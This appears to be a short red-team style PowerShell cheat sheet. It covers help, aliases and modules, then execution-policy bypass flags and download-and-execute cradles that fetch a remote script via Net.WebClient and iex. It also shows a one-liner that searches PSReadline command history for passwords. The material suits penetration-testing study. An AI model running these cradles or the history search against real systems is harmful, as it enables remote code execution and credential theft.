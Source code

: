 # Help System
`Get-Help Get-Process`
`help Get-Process`
`Update-Help`

`Get-Help remoting`
`Get-Help about_*remot*`

`Get-Command -CommandTyle Cmdlet`

# Basic Constructs

Cmdlets
Function

# Aliases

`Get-Alias -Name ps`
`Get-Alias -Definition Get-Process`

# Execution Policy

* Not a security feature
* Used to avoid accidental script execution
* Can be bypass with:
  * `powershell -executionpolicy bypass .\example.ps1`
  * `powershell -c <cmd>`
  * `powershell -enc`

# Modules

`Import-Module <path_to_module> -verbose`
`Get-Module -ListAvailable`
`Get-Command -Module <module_name>`

# Remote Script execution

* `Invoke-Expression (New-Object Net.WebClient).DownloadString('http://example.com/example.ps1');`
* `iex (New-Object Net.WebClient).DownloadString('http://example.com/example.ps1');`
* `powershell -EncodedCommand <Base64EncodedCommand>`

* Craft Download Cradles: https://github.com/danielbohannon/Invoke-CradleCrafter

# Command History (PSReadline)

```
cat (Get-PSReadlineOption).HistorySavePath | sls password
```
By default, the path is:
```
profile:\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
